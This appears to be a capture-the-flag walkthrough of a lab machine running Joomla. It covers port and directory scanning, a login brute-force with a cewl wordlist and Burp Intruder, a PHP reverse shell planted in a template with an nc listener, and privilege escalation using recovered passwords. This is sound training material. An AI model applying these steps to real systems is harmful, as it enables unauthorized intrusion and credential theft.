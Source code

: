 ## IP : 192.168.190.79

# RECONNAISSANCE

**Nmap** scan (SYN, service/version, default scripts):
```bash
sudo nmap -p- -sS -sC -sV --open 192.168.190.79
```
```
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
```

**HTTP** (port 80)  
- Default page, no title.  
- **Directory fuzzing** with FFUF:
  ```bash
  ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt        -u http://192.168.190.79/FUZZ
  ```
  Found `/joomla/`.  
- Further fuzz under `/joomla/`:
  ```bash
  ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt        -u http://192.168.190.79/joomla/FUZZ
  ```
  Found many (including `administrator`).

# VULNERABILITY & BRUTE-FORCE

Since we don’t know credentials, generate a custom wordlist from the admin page:

```bash
cewl http://192.168.190.79/joomla/administrator/ -d 4 -m 5 -w cewl2.txt
```

Inspect `cewl2.txt`:
```bash
cat cewl2.txt | grep "" -b
# Lists words like Joomla, Username, Password, Arthur, Gotham, etc.
```

Use **Burp Suite Intruder (Pitchfork mode)**:
- Capture the POST to `/joomla/administrator/index.php`.  
- Position both `username` and `passwd` parameters.  
- Load `cewl2.txt` as payload set for both fields.  
- Run attack → **Joomla:Gotham** succeeds.


# INITIAL ACCESS

Login at `http://192.168.190.79/joomla/administrator/` with **Joomla:Gotham**.  
Browse to `joomla/templates/protostar/index.php` via the GUI editor.  
Replace its contents with PentestMonkey’s PHP reverse shell (update LHOST/LPORT), save.

```bash
nc -lvnp 4444
# Then refresh http://192.168.190.79/joomla/index.php
```
You’ll receive a shell as **www-data**.

**User flag:**
```bash
cat /home/www-data/user.txt
# flag{...}
```

# PRIVILEGE ESCALATION

- **Configuration**: `/var/www/html/joomla/configuration.php` holds DB creds.
- **Journal clue** in `/home/www-data/journal.txt`:  
  A ROT1 + Base64 string yields password for `rob`:  
  ```
  ???AllIHaveAreNegativeThoughts???
  ```
- `su rob` 
- In `rob`’s home find a zipped archive requiring Abner’s password.  
- Use the earlier enigma to derive **Abner**’s pass:  
  ```
  I33hn0e94my0death000makes49mn2e8cem9s00than0my0life0
  ```
- `su abner` → get **abner** shell.

**Root flag** in `/home/abner/root.txt`.
